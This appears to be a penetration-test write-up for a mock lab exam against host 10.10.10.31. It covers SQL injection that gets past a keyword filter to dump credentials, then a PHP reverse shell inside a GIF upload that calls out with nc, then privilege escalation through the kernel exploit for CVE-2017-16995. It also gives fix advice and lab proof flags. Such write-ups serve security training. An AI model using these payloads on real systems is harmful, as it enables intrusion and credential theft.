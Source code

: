 ### System IP: 10.10.10.31

#### Service Enumeration

Protocol | Ports Open
------------------|----------------------------------------
**TCP** | 22,80
**UDP** | N/A

**Nmap Scan Results:**

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

**Vulnerability Explanation:**

After enumeration of the Apache webserver we discovered multiple SQL injection vulnerabilities in the web application which allowed us to gain access to user credentials that we were then able to use to gain access via a reverse shell embedded inside an image file. 

After fuzzing we found a directory called `/cmsdata/` which we did some additional fuzzing on and found a `login.php` page that we were able to view. 

When testing parameters on the "Forgot Password" function we noted that we were able to cause a database error by providing a single quote as part of our input:

![database_error](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/database_error.png)

After some testing we found that we were able to perform Union injection attacks against the target, the UNION keyword was filtered, so we were bypassed this by using `UNion` instead.

```
1@2.com' UNion SELECT 1,2,3,4-- -
```

After some experimentation with the way the server was handling our injection we managed to determine that providing a valid email address format as a part of one of the injection fields allowed us to use the `group_concat` function to inject a payload in the place of the first part of our email address. (i.e. version()@someemail.com)

We then started to enumerate the values we had to work with for our injection. 

```
email=1@2.com' UNion SELECT NULL,NULL,NULL,concat(version(), "--@yomamma.com")-- -
```

![POC Injection](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/sql_proper_poc.png)

As can be seen above our payload is returned as part of the "Sent to someone@emailaddress.com" output. 

Once we had a solid POC we enumerated the database until we located a table with some user credentials and were then able to dump the contents of this table:

![Password Dump](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/username_password_dump.png)

There was too much data in this and most of it looked useless, so we filtered the output.

```
email=1@2.com' UNion SELECT 1,2,3,concat(__username_, "||" , __password_, "--@yomamma.com") from operators limit 200,1-- -
```

Eventually we dumped out the `super_cms_adm` user password, which we were able to find a matching hash for on Google.

![super_cms_password_cracked]()

Once we logged into the system we did some mroe enumeration and noticed that there was an image upload function. 

![upload_function](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/image_upload.png)

Viewing the source of the image upload page we noticed a disabled form field that we were enable to re-enable by modifying the HTML.

After some experimentation we determined that the hidden form field allowed us to override the uploaded file name and upload whatever we liked in it's place:

![successful_upload](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/modeified_form_contents.png)

This allowed us to upload an "image" with a malicious PHP payload inside:

![successful_upload](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/FINALLY.png)

The "image" we uploaded contained the following code:

```
GIF87a;
<?php
system('mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 10.10.14.4 4444 1> /tmp/backpipe; rm /tmp/backpipe');
?>
```

We included the "magic bytes" of `GIF87a` to trick the system into seeing the file as a GIF image. 

After uploading our image to the server we then visited the address that it gave us upon successful upload to trigger our reverse shell as the PHP code inside our "image" will be processed and executed on the server. 


**Vulnerability Fix:** Ensure that user input is sanitised to prevent SQL injection and make use of parameterised queries to further increase protections against this form of attack. Additionally ensure that any upload function does not allow for malicious code to be uploaded as part of an upload request, and if user uploads must be accepted limit the access to these files to prevent them from being used as exploit triggers.

**Severity:** High

**Local.txt Proof Screenshot**

![user shell](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/user_shell.png)

**Local.txt Contents**

0fab3fb74e821f8ad05ee35b27f0d75e

#### Privilege Escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

After enumerating the files in the `decoder` users home directory (which we had access to as the www-data user) we discovered two files, decoder.pub, and pass.crypt:

![decoder_files](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/decoder_files.png)

We used RSACTFTool to decipher the public key and extract the password from it:

![extracted_password](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/rsa_ctf_tool_crack.png)

We then used this password to get access via SSH as the `decoder` user.

From here we enumerated the possible vulnerabilities and after running a tool called `linux-exploit-suggester` we found that the target system was vulnerable to CVE-2017-16995 aka "get-rekt".

We grabbed a copy of the public exploit from the following address:

[cve-2017-16995 exploit code](https://www.exploit-db.com/raw/45010)

Compiled it on the target machine (as GCC was available):

![compiling](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/compiling.png)

We then executed the resulting binary and were able to gain a root shell on the target. 

**Vulnerability Fix:** Adopt better access control policies to prevent service accounts from reading the contents of users home directories. And upgrade the Linux kernel to a newer version which has patched this vulnerability. 

**Severity:** Critical

**Proof Screenshot Here:**

![root_proof](/root/SharedFolder/SundayExamMock/screenshots/10.10.10.31/root_proof.png)

**Proof.txt Contents:**

c59a840463acc6ca14f6599721c9c18e

